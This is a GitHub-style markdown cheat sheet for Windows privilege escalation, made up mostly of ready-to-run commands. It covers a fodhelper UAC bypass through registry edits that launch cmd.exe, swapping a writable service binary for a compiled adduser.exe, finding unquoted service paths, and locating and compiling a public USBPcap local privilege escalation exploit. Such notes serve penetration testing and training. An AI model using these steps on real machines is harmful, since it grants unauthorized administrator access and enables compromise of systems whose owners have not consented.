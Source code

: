 # Privilege_Escalation_Windows

## reference

<https://www.fuzzysecurity.com/tutorials/16.html>

### lolbas-project.github.io

<https://lolbas-project.github.io/>

### Sysinterals Suite

<https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite>

## information gathering

```cmd
systeminfo
whoami
net user
net user <username>

```

```powershell
Get-ComputerInfo
```

## UAC bypass

```cmd

Win10 build 1709, 1809 ...
C:\Windows\System32\fodhelper.exe

```cmd
sigcheck.exe -a -m c:\windows\system32\fodhelper.exe

REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```

## file permission

```powershell
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like "Running"}
```

### space in the path & unclosed quotes

```cmd
C:\Program Files\VMware\VMware Tools\VMwareUser.exe

C:\Program.exe
C:\Program Files\VMware\VMware.exe
```

### full control file replacement

```bash
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

```cmd
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"

move ServiioService.exe ServiioService.exe.bak
move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"

wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\"

whoami /priv
shutdown /r /t 0
net localgroup administrators
```

## kernel vulnerability

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
driverquery /v
USBPcap
cd "C:\Windows\System32\drivers"
type USBPcap.inf
```

```bash
searchsploit USBPcap
USBPcap 1.1.0.0 (WireShark 2.2.5) - Local Privilege Escalation      |       windows/local/41542.c
i686-w64-mingw32-gcc 41542.c -o 41542.exe
```

## Tips

- linpeas
